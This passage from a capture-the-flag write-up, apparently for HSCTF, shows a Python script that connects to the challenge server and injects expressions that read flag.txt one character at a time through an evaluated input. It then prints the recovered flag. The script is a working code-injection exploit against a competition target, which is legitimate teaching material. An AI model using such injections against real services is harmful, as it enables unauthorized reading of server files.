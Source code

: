 ``` python
 
    flag = ""
    FLAG_LEN = 0
    new_char = 0
 
    #Enstablishing connection with the server
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(("misc.hsctf.com", 7001))
 
    #Finding the flag length so we can later initialize a loop
    #to get each flag characters
    if FLAG_LEN == 0:
        print("[*] Getting flag length...")
 
        #Sending the first code to get the flag length
        FLAG_LEN = send(s, "len(open('flag.txt', 'r').readline().split()[0])\n")
        print("[*] Got length: {}".format(FLAG_LEN))
 
        #Closing the server socket
        s.close()
 
    #Looping through each flag char
    for i in range(0, FLAG_LEN):
 
        #Enstablishing conneciton with the server
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(("misc.hsctf.com", 7001))
 
        #Sending the second code the get the ASCII value of the char at i position
        new_char = chr(send(s, "ord(open('flag.txt', 'r').readline()[{}])\n".format(i)))
        print("[*] Got char: {}".format(new_char))
 
        #Appending char to flag's string
        flag += new_char
 
        #Closing the server socket
        s.close()
 
    print(flag)
```

Once we run it, we wait a few seconds and we would get the flag:
`flag{please_use_python3}`

(It's fun since I wrote the script using python2 lmao)
